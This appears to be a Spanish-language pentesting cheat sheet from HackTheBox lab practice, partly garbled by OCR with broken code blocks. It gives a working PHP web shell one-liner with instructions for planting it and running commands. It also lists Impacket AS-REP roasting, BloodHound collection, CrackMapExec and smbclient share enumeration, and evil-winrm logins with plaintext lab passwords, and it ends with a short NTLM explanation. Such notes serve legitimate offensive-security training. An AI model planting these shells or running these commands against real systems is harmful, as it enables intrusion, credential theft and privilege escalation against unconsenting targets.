 
Si es un .php con html solo pones : <?php echo "Shell":system($_REQUEST['cmd']); ?>
Si tiene un <?php al principio pones solo: echo "Shell":system($_REQUEST['cmd']);
$_REQUEST --> admite tanto POST como GET
Si viene escrito shell en algun lado es que ha funcionado.

Al ver que funciona ya metes la shell de PHP ( ver PHP SHELL)
Si por ejemplo has introducido el codigo php en una pagina que se llama index.php, buscas ---> dev.devvortex.htb/index.php?cmd=id
te lo llevas al burpsuite y ya hay desde el repeater vas buscando con ls, etc


### IMPACKET
```

impacket-GetNPUsers.py active.htb/ -dc-ip 10.10.10.100 -request ---> kerberoasting, tienes una lista de usuarios y sacas la contraseña


### BLOODHOUND
```

1) activas el neo4j -> 
 - cd /usr/bin
 -./neo4j console
2) desde donde tienes el bloodhound en este caso Downloads/Bloodhound tiras -> ./BloodHound --no-sandbox
3) te abrira el bloodhound, acc: neo4j y pass: rvb07996

bloodhound-python -d jab.htb -c all -u svc_openfire -p '!@#$%^&*(1qazxsw' -ns 10.10.11.4 --zip ---> te devuelve un archivo zip que lueg
lo metes en el bloodhound, lo analiza y te dice que pasos seguir para escalar privilegios


bloodhound-python -d jab.htb -c all -u svc_openfire -p '!@#$%^&*(1qazxsw' -ns 10.10.11.4 --zip

139/445 ---> SMB (COMPARTIR CARPETA)
	crackmapexec smb 10.129.71.181 -u '' -p '' --shares (shares = cualquier carpeta) 
	lista carpetas que hay compartidas con login null
	crackmapexec smb 10.129.71.181 -u 'anonymous' -p '' --shares
	loggin con usuario
	smbclient --no-pass //IP/Folder   (se conecta a la carpeta)
	smbclient -L -> lista carpetas compartidas

###EVIL-WINRM 
```

evil-winrm -i 10.129.136.91 -u administrator -p badminton

### NTLM
```

NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response
authentication protocol used to authenticate a client to a resource on an Active Directory domain.
It is a type of single sign-on (SSO) because it allows the user to provide the underlying authentication factor
only once, at login.
The NTLM authentication process is done in the following way :
1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the
server.
4. The server retrieves the user password (or equivalent).
5. The server uses the hash value retrieved from the security account database to encrypt the challenge
string. The value is then compared to the value received from the client. If the values match, the client
is authenticated.